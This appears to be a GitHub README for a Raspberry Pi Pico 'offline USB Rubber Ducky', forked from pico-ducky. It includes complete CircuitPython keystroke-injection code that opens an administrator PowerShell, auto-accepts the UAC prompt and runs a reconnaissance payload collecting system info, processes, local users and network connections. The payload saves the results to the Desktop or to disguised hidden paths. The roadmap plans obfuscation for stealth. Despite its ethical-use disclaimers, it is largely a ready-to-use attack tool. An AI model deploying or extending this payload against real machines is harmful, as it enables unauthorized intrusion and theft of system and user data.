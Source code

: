 # 🛠️ Project: Offline USB Rubber Ducky with Raspberry Pi Pico

## Overview

This project aims to create an **offline USB Rubber Ducky** using a Raspberry Pi Pico. When connected to a computer, the device emulates a keyboard and automatically collects essential system information, saving it locally for later analysis—no internet connection required.

> **Disclaimer:** This project is intended for educational purposes and controlled, ethical hacking environments only. Do not deploy on systems without explicit authorization.
## Credits

This project is based on [pico-ducky](https://github.com/dbisu/pico-ducky) created by [dbisu](https://github.com/dbisu).
Special thanks to all contributors of the original pico-ducky project.

---

## What is a USB Rubber Ducky?

A [USB Rubber Ducky](https://hak5.org/products/usb-rubber-ducky) is a device that mimics a USB keyboard, allowing it to inject keystrokes and execute commands automatically when plugged into a target machine. It's widely used by penetration testers and security professionals to demonstrate the risks of physical access attacks.

---

## Features

- **Hardware:** Raspberry Pi Pico microcontroller
- **Firmware:** CircuitPython
- **Libraries:** [Adafruit CircuitPython HID](https://github.com/adafruit/Adafruit_CircuitPython_HID)
- **Payload:** PowerShell script for information gathering
- **Base Project:** Forked and adapted from [`pico-ducky`](https://github.com/dbisu/pico-ducky) by [dbisu](https://github.com/dbisu)

---

## How It Works

Upon connection to a Windows PC:

1. The Pico emulates a USB keyboard (HID).
2. Opens PowerShell with administrator privileges.
3. Executes several commands to gather:
    - System information (`Get-ComputerInfo`)
    - Active processes (`Get-Process`)
    - Local user accounts (`Get-LocalUser`)
    - Network connections (`Get-NetTCPConnection`)
4. Saves the collected data as `audit.txt` on the Desktop (or alternative hidden locations).

**Alternative Storage Paths:**
```powershell
$out = "$env:APPDATA\Microsoft\Windows\Recent\syscache.txt"
# or
$out = "C:\ProgramData\sysinfo.log"
```

---

## CircuitPython Example Code

```python
import time
import board
import usb_hid
from adafruit_hid.keyboard import Keyboard
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS
from adafruit_hid.keycode import Keycode

keyboard = Keyboard(usb_hid.devices)
layout = KeyboardLayoutUS(keyboard)

time.sleep(3)  # Wait for the host to be ready

# Open Run dialog
keyboard.press(Keycode.GUI, Keycode.R)
keyboard.release_all()
time.sleep(0.5)

# Launch PowerShell
layout.write("powershell\n")
time.sleep(1)

# Request admin privileges
keyboard.press(Keycode.CONTROL, Keycode.SHIFT, Keycode.ENTER)
keyboard.release_all()
time.sleep(1.2)

# Accept UAC prompt (may require language/layout adjustment)
keyboard.press(Keycode.ALT, Keycode.Y)
keyboard.release_all()
time.sleep(0.8)

# PowerShell payload
payload = (
    '$out = "$env:USERPROFILE\\Desktop\\audit.txt"; '
    'Get-ComputerInfo | Out-File $out; '
    'Get-Process | Out-File $out -Append; '
    'Get-LocalUser | Out-File $out -Append; '
    'Get-NetTCPConnection | Out-File $out -Append'
)

layout.write(payload + '\n')
time.sleep(1)
layout.write("exit\n")
```

---

## Sample Output

```
ComputerName           : VICTIM-PC
OSName                 : Microsoft Windows 10 Pro
SystemType             : x64-based PC
Username               : VICTIM\user
...
--- Process List ---
Name                  ID          CPU
------------------   ----------  ----
explorer.exe         1234        3.2
chrome.exe           4567        7.8

--- Users ---
Name                 Enabled
------------------   -------
Admin                True
Guest                False
```

---

## Ethical Considerations

This project demonstrates the importance of physical security and awareness of USB-based attacks. Use responsibly for:

- Security awareness training
- Penetration testing (with permission)
- Cybersecurity labs and demonstrations

> **Warning:** Unauthorized use of this tool is illegal and unethical. Always obtain explicit permission before testing any system.

---

## Roadmap

- Support for multiple, selectable payloads (via physical button)
- Screenshot and clipboard capture functionalities
- Command obfuscation for stealthier payloads
- Automatic system language detection (keyboard layout adaptation)

---

## Conclusion

This project showcases how affordable microcontrollers like the Raspberry Pi Pico can automate complex, real-world security assessments. Properly used, it’s a powerful tool for learning, teaching, and raising awareness about the dangers of physical access and USB attacks.

---
